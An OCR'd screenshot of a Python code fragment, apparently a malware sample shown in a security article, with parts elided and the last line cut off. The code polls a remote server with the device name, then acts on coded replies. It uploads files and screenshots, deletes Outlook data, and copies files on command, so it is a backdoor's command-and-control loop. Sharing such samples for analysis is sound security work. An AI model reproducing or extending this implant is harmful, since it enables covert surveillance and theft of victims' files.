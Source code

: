 
Python


ur = requests.post(url, data={'beau': name_device + ';' + str(getLastModDir(4))})
   resArr = ur.text
   Im_extin = resArr.split(';')[0]
   if ur.status_code == 200:
       if resArr == 'Lee':
           register_new_device(FranDrescher)
       elif resArr == 'Melissa':
           pass
       elif resArr == 'Renee':
           status = Delete_Request(Im_extin)
       elif resArr == 'nero':
           pass
  else:
           Im_extintion = resArr.split(';')[1]
           if Im_extintion == 'Rapunzel':
               path = args_parser(MyFolderName)
               status = Upload_File('else', path, FranDrescher, Im_extin)
               if status:
                   status = Delete_Request(Im_extin)
               if Im_extintion == 'Gal_Gadot':
                   path = Sec_Shot(MyFolderName)
                   status = Upload_File('lucretia', path, FranDrescher, Im_extin)
                   if status:
                       status = Delete_Request(Im_extin)

...
...
...

if Im_extintion == 'Ed_ONeill':
                   F_Out = resArr.split(';')[2]
                   src_B = base64ToString(F_Out)
                   if src_B == 'delete':
                       status = Del_Outlook()
                   else:
...
...
...
if Im_extintion == 'groot':
                   src_path = resArr.split(';')[2]
                   dist_path = resArr.split(';')[3]
                   src_B = base64ToString(src_path)
                   src_B_D = base64ToString(dist_path)
                   if os.path.exists(src_B) and os.path.exists(src_B_D




1234567891011121314151617181920212223242526272829303132333435363738394041424344
